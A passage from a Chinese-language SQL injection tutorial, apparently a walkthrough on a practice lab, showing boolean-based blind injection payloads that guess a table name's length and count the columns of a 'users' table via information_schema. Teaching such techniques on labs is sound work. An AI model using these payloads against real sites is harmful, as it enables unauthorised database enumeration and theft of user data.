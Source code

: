 ```bash
第四个表长度为 5
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 3,1))=5 --+
```

知道每个表的长度后，我们再使用和库名一样的方式猜解表名  
[![](assets/1707953831-fa0a0603b3e9f6f608a0bcbf3ecca274.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192005-5911321a-c34f-1.png)  
例如第一个表名称为 emails  
[![](assets/1707953831-46a192b1d4ad9a5cf032f5d2060e8574.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192036-6b5be320-c34f-1.png)  
知道表（第四个表，长度为五，是 users）的信息后，我们再来猜列的个数，这里可以看到有三个列

```bash
?id=1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name = 'users')=3 --+
```
